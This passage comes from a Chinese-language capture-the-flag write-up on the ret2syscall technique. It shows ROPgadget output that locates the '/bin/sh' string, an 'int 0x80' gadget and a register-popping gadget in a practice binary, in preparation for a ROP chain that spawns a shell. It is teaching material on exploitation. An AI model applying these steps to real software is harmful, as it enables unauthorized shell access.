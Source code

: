 选择第24行，正好可以将后面两个寄存器的值一起填充，地址为0x0806eb90

```
dililearngent@dililearngent-virtual-machine:~/Desktop/pwn1$ ROPgadget --binary ret2syscall  --string '/bin/sh'
Strings information
============================================================
0x080be408 : /bin/sh
```

/bin/sh字符串的位置在0x080be408

```
dililearngent@dililearngent-virtual-machine:~/Desktop/pwn1$ ROPgadget --binary ret2syscall  --only 'int'
Gadgets information
============================================================
0x08049421 : int 0x80

Unique gadgets found: 1
```

int 0x80的地址在0x08049421

具体执行过程如下：

<img src=".\img\stack\ret2syscall2.png" alt="ret2syscall2" style="zoom:50%;" align='left' />
